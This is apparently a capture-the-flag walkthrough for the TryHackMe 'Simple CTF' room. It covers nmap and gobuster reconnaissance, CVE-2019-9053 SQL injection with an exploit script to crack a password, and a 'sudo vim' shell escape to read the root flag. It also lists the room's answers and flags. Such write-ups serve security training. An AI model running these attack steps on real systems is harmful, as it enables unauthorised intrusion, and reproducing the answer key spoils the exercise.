 ```yaml
---
description: 'https://tryhackme.com/room/easyctf'
---
```


# Simple CTF

## INIT

```text
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```text
nmap -T5 -p1-1000 easyctf.thm
```

![](../.gitbook/assets/image%20%28431%29.png)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```text
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](../.gitbook/assets/image%20%28390%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](../.gitbook/assets/image%20%28456%29.png)

## HTTP

![](../.gitbook/assets/image%20%28450%29.png)

## GOBUSTER

```text
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28432%29.png)

![](../.gitbook/assets/image%20%28458%29.png)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](../.gitbook/assets/image%20%28446%29.png)

![](../.gitbook/assets/image%20%28415%29.png)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](../.gitbook/assets/image%20%28418%29.png)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```text
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28445%29.png)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](../.gitbook/assets/image%20%28402%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](../.gitbook/assets/image%20%28379%29.png)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](../.gitbook/assets/image%20%28384%29.png)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```text
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```text
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}

